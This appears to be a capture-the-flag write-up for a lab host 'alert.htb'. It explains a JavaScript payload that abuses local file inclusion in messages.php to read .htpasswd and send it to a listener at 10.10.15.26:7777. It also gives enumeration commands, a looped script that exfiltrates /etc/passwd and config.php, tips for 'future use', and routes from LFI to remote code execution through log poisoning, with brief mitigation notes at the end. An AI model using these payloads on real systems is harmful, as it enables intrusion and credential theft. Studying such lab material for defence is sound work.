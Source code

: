 # Local File Inclusion (LFI) vulnerability. 

```
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.15.26:7777/?file_content=" + encodeURIComponent(data));
  });
</script>

```

This script is designed to exploit a **Local File Inclusion (LFI) vulnerability** in `messages.php` on `alert.htb`. Here's what it does:

# **Breakdown of the Script:**
```javascript
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
```
- This sends a request to `messages.php`, passing the `file` parameter.
- The `file` parameter attempts to access the `.htpasswd` file using **directory traversal (`../` sequences)** to move up in the directory tree.
- If `messages.php` does not properly validate input, it will include and return the contents of `.htpasswd`.

```javascript
.then(response => response.text())
.then(data => {
  fetch("http://10.10.15.26:7777/?file_content=" + encodeURIComponent(data));
});
```
- It takes the response (the content of `.htpasswd`).
- Then, it sends the extracted data to a listener on `10.10.15.26:7777`, which could be an attacker's machine set up to receive it.

---

# **How to Get `messages.php` and Understand Its Functionality**
1. **Enumerate the Web Server**
   - Use tools like `gobuster`, `ffuf`, or `dirsearch` to find `messages.php`:
     ```bash
     gobuster dir -u http://alert.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
     ```
   - Look for PHP files that take parameters.

2. **Test for LFI**
   - Manually try injecting `../` to see if files can be accessed:
     ```
     http://alert.htb/messages.php?file=../../../../../../../etc/passwd
     ```
   - If successful, you will see system user information.

3. **Understand What `messages.php` Does**
   - If you can access `.php` source files, look at how `messages.php` handles the `file` parameter:
     ```php
     <?php
     $file = $_GET['file'];
     include($file);
     ?>
     ```
   - If there is no proper validation (e.g., `realpath()`, `basename()`, `str_replace('../', '', $file)`), then it's vulnerable.

---

# **Customizing the Exploit for Future Use**
1. **Change the Target File**
   - Instead of `.htpasswd`, you can try:
     - `/etc/passwd` (user accounts)
     - `/var/www/html/config.php` (database credentials)
     - `/proc/self/environ` (environment variables, possible RCE)

2. **Automate Extraction**
   - Modify the script to loop through different files:
     ```javascript
     let files = [
       "../../../../../../../etc/passwd",
       "../../../../../../../var/www/html/config.php"
     ];

     files.forEach(file => {
       fetch(`http://alert.htb/messages.php?file=${file}`)
         .then(response => response.text())
         .then(data => {
           fetch("http://10.10.15.26:7777/?file=" + encodeURIComponent(file) + "&content=" + encodeURIComponent(data));
         });
     });
     ```

3. **Change Data Exfiltration**
   - Instead of sending data via `fetch()`, use:
     - WebSocket for real-time exfiltration.
     - Convert the response into Base64 before sending.

4. **Turn LFI into RCE**
   - If `/proc/self/environ` is accessible, try injecting a web shell by modifying `User-Agent`.
   - If LFI includes logs (`/var/log/apache2/access.log`), inject PHP payloads into logs and include them.

---

# **Detection & Mitigation**
- **Prevent LFI**
  - Use `realpath()`, `basename()`, or a whitelist of files.
  - Disable `allow_url_include` in `php.ini`.

- **Monitor Logs**
  - Check for excessive `../` sequences in requests.
  - Log unusual outgoing connections.


